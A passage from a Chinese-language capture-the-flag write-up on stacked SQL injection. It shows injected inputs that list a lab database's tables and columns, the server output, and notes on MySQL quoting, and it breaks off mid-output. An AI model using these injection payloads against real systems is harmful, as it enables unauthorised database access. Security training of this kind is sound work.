    说明存在堆叠注入

5. 查询表

   输入`1';show tables;#` 成功回显

   ```javascript
   array(2) {
     [0]=>
     string(1) "1"
     [1]=>
     string(7) "hahahah"
   }
   
   array(1) {
     [0]=>
     string(16) "1919810931114514"
   }
   
   array(1) {
     [0]=>
     string(5) "words"
   }
   
   
   ```

   可以看到有两张表 **1919810931114514**  **words** 

6. 查询表中字段

   **坑点：mysql中点引号( ' )和反勾号( ` )的区别**

   ```shell
   linux下不区分，windows下区分
   区别:
   单引号( ' )或双引号主要用于字符串的引用符号
   eg：mysql> SELECT 'hello', "hello" ;
   
   反勾号( ` )主要用于数据库、表、索引、列和别名用的引用符是[Esc下面的键]
   eg:`mysql>SELECT * FROM   `table`   WHERE `from` = 'abc' ;
   ```

   输入

   ```sql
   1'; show columns from `words`; #
   ```

    字段使用的是反勾号（ ` ）

   ```javascript
   array(6) {
     [0]=>
     string(2) "id"
     [1]=>
     string(7) "int(10)"
     [2]=>
     string(2) "NO"
     [3]=>
     string(0) ""
     [4]=>
     NULL
     [5]=>
     string(0) ""
   }
   
   array(6) {
     [0]=>
     string(4) "data"
   ```

[^1]: 此处 # 作用是注释 忽略 # 之后的语句 [参考资料](https://blog.csdn.net/github_36032947/article/details/78442189)
[^2]: 这句话的逻辑 不是特别清楚 网上搜了很多 但是都是这一道题目的 没有讲具体的逻辑 目前推断是 能堆叠 防止你乱搞 所以才禁止了这些关键词 否则直接禁止了堆叠注入 就根本不用禁止了 而且此时是联合注入